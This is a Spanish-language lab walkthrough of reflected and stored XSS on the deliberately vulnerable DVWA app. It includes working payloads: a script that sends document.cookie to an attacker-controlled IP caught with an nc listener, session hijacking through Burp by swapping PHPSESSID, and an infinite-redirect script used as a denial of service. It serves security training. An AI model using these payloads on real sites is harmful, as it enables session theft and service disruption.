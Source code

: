 # Empecemos con las pruebas  XSS


Muy bien para empezar necesitaremos tener la maquina de DVWA abierta. prodemos tener la maquina atraves de  tryhackme o por docker.

Vamos a iniciar por XSS reflect, acordarse que en la maquina de DVWA de poner el modo de seguridad en nivel low para que funcione las pruebas que vamos a hacer.

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled.png)

Luego nos iremos al apartado XSS Reflected, aqui haremos primero una prueba muy simple.

 

```bash
<script>alert ("hola soy un ataque xss") </script> 
```

Si lo ponemos en el cuador de texto de “what`s your name?” vamos a ver que ocurre.

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%201.png)

Como podemos ver nos suelta, una alerta que nos da el código que hemos introducido.

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%202.png)

También podemos hacerlo un poco mas interesante por ejemplo que nos saque la IP del servidor.

```bash
<script>alert(document.domain)</script>
```

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%203.png)

Con esto el atacante también podría hacer un ataque directamente a la ip del servidor.

Vamos a hacerlo aun mucho mas interesante porque vamos a coger de una forma “prestada” una cookie de sesión.

vamos a utilizar este codigo.

Este código lo que hace es que estamos utilizando código javascrit, y que le estamos creando un nuevo  objeto de la clase image, luego esta imagen con la propiedad src apunta a la URL especifica que incluye a donde le vamos a querer que envié la cookie y lo que queremos enviar que es la cookie de sesión que se aloja en document.cookie

```bash
<script>new Image().src="http://192.168.1.155/bogus.php?output="+document.cookie;</script>   
```

Acordarse cambiar la ip por la maquina de vuestro kali, y poner el kali en modo bridge.

ahora vamos a dejar nuestro kali preparado y levantado para que empiece a escuchar y nos llegue la cookie de sesión.

para dejarlo en modo escucha, en una terminal ponemos 

```bash
nc -vnlp 80
```

y una vez alguien le de click a la url o le demos al boton submit enviara la cookie.

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%204.png)

Una vez esto abriremos nuestro burpsuite. abriremos nuestro burpsuite para poder interceptar las peticiones de nuestro navegador al servidor y viceversa y poder llegar a modificar la cookie. esto lo que hará es que podamos tener acceso a la pagina de DVWA sin haber iniciado sesión.

 Pondremos el burpsuite a interceptar paquetes dandole a la opcion “intercept is on”

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%205.png)

Como podemos ver en esta imagen no estoy logueado en ningún momento en DVWA

Ahora si nosotros escribimos y queremos que nos redirija a esa url que existe de la maquina.

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%206.png)

el burpsuite nos saltara 

y debemos de modificar el apartado de la cookie por la nueva cookie

Antigua

---

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%207.png)

Nueva

---

Solo cambiamos el PHPSESSID= ques donde va a ir la cookie.

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%208.png)

esto para guion

listo ya tendríamos acceso si haber logueado sesión anteriormente

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%209.png)

Al Obtener la cookie de sesión el atacante.

Bueno ya que creo que con esto os a picado la curiosidad vamos a pasar al XSS stored el almacenado, no tiene mucho misterio ya que lo que ocurre es que el código malicioso se quedaría guardado en el servidor es decir que cada vez que se vuelva a recargar la pagina se va a ejecutar y quien intente acceder a esa pagina también va a ejecutar el código malicioso.

 Asi que nos vamos al apartado de XSS Stored 

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%2010.png)

Recordad que si por algun casual en DVWA no os deja escribir muchas letras, en inspeccionar elemento se puede cambiar la longitud máxima de caracteres.

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%2011.png)

Volviendo al XSS stored el codigo practicamente es el mismo que el XSS reflect solo que de por si se guarda. para hacer que cada vez que una persona que recargue la pagina le salga un alert.

```bash
<script>alert("hola esto es un xss stored")</script>
```

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%2012.png)

ahora la cosa esque esto se va a repetir continuamente cada vez que se recargue la pagina.

igual que anteriormente con xss reflect podemos tambien que renvie cookie de sesión pero lo que vamos a hacer es imaginar que el atacante quiere denegar el servicio a esta pagina. una de las formas para hacer esto podria ser con este codigo malicioso

```bash
<script>
    while (true) {
        window.location = "http://mi-sitio-malicioso.com/";
    }
</script>
```

Como veis nos sigue redirigiendo a mi sitio [malicioso.com](http://malicioso.com) 🙂

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%2013.png)

ya lo demas es exactamente igual que el XSS reflect
